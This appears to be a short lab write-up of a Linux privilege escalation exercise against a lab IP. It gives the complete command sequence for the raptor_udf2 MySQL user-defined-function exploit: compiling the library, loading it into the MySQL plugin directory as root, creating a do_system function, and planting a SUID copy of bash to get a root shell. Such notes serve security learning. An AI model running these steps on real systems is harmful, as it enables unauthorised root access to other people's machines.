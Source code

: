 # Basic Linux Privilege Escalation .

### IP 10.10.111.117


##  1. Service Exploits:

My sql service udf function Exploit 

- Compiling the exploit 

        gcc -g -c raptor_udf2.c -fPIC
        gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc



- Connecting root user

        mysql -u root


- Executing  commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using  compiled exploit

    use mysql;
    create table foo(line blob);
    insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
    select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
    create function do_system returns integer soname 'raptor_udf2.so';


- coping /bin/bash to /tmp/rootbash and set the SUID permission

        select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

- running executable to gain root access
 
        /tmp/rootbash -p


